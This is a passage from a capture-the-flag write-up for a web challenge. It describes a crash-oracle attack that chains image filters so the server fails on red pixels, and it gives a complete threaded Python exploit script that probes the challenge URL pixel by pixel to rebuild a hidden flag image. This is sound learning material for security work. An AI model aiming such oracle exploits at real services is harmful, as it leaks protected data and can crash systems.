 We can turn the image into only the color of the pixel at `(x,y)`. This will be useful for isolating a single pixel.

## Exploit

To check whether a certain pixel is a flag pixel or not, we can do the following filter pipeline:

1. make image black/red only with a huuuuuge `gamma`
2. use a `warp` to only get data on a specific pixel
3. transform `intensity` such that `0` is mapped to `1` and `1` is mapped to `-0.2`, this has the effect of causing red pixels to have negative pixel values
4. apply a `gamma`, if it crashes the app, the pixel is red, otherwise, the pixel is black

We can then apply this function to all pixels of the image.

The exploit was taking way too long to run locally as image processing is expensive and takes a while. To reduce the amount of queries we have to make, I had it only calculate the pixel value for every 10th x/y coordinate (thus resulting in only `100^2` queries). 

Following is my exploit:

```python
import requests
import os
import orjson
import numpy as np
from PIL import Image
from concurrent.futures import ThreadPoolExecutor
from tqdm import tqdm

url = "https://mokersee-web.chal.irisc.tf/view/flagmoker"
# url = "http://0.0.0.0:1337/view/flag"

def is_on(x, y):
    mult = 1/1000
    warper = [
        [mult, 0, x],
        [0, mult, y],
        [0, 0, 1]
    ]

    filters = [
        {"filter": "gamma", "args": [1000000]}, # make image black/red
        {"filter": "warp", "args": [warper]},
        {"filter": "intensity", "args": [[0., 1.], [1.0, -0.2]]},
        {"filter": "gamma", "args": []}
    ]
    filters = orjson.dumps(filters).decode()

    r = requests.get(url, params={"filters": filters})
    try:
        r.raise_for_status()
        return False
    except:
        return True

img = np.zeros((1000, 1000, 3))

with ThreadPoolExecutor(20) as pool:
    for x in tqdm(range(0, 1000, 10)):
        def work(y):
            img[x][y][:] = 1.0 if is_on(x, y) else 0.0
        [*pool.map(work, range(0, 1000, 10))]


img = Image.fromarray((img * 255).astype(np.uint8), "RGB")
```